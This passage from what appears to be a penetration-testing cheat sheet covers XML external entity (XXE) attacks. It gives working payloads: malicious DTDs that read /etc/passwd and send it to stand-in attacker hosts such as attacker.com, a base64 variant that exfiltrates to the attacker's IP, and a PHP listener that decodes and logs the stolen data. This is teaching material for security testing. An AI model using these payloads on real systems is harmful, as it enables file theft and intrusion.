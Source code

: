 ```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://internal.vulnerable-website.com/"> %xxe;]>
```

You don't need to make use of the defined entity in a data value within the XML as the `%xxe;` is already calling the entity.


### 4. Blind XXE with data exfiltration out-of-band (Blind XXE with OOB data exfiltration)

#### Alternative 1

**1.** Create a malicious.dtd file:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
Basically, malicious.dtd retrieves /etc/passwd from the instance in which is executed. 

**2.** Serve our malicious.dtd from http://atacker.com/malicious.dtd.

**3.** Submit a payload to the victim via XXE (blind) with a xml parameter entity.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
```

This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.

#### Alternative 2: Manual attack

Create a blind.dtd file with the following content and serve it from our kali machine:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://$ipAttcker:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```

Additionally, the file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data (WFhFX1NBTVBMRV9EQVRB). When the XML tries to reference the external oob parameter from our machine, it will request http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB. Finally, we can create a php script to decode this encoded content under name `index.php` and have it in the same location as blind.dtd as we will be serving it:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

